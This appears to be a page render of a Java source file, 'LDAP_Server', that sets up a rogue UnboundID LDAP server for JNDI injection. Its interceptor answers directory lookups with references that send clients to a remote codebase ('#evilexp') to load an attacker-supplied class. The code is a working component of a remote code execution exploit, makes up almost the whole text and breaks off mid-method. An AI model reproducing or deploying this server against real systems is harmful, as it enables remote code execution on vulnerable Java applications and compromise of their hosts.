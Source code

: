 #### test

LDAP\_Server

```bash
package JNDI;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Map;


public class LDAP_Server {
    public static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] args) {
        String[] args1 = new String[]{"http://127.0.0.1:8000/#evilexp"};
        int port = 9999;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig("listen", InetAddress.getByName("127.0.0.1"), port, ServerSocketFactory.getDefault(), SocketFactory.getDefault(), (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args1[0])));
            InMemoryDirectoryServer inMemoryDirectoryServer = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 127.0.0.1" + port);
            inMemoryDirectoryServer.startListening();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;

        public OperationInterceptor(URL url) {
            this.codebase = url;
        }


        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase,this.codebase.getRef().replace('.','/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName","foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
```